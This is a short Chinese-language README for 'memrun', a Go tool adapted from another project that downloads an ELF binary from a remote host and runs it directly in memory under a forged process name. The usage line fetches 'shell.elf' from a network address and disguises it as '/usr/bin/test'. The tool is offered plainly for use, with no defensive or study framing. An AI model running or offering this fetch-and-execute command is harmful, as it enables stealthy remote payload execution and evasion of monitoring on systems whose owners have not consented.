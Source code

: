 # memrun
一直想找一个linux远程内存加载elf的工具，发现了这个项目，但是进程很明显：https://github.com/seventeenman/noELF

又找到一个go语言开发的可以伪造进程名的，简单修改了一下大佬的项目：https://github.com/guitmz/memrun

## 使用方法
```bash
go build memrun.go
./memrun /usr/bin/test http://10.0.0.11:9090/shell.elf
```
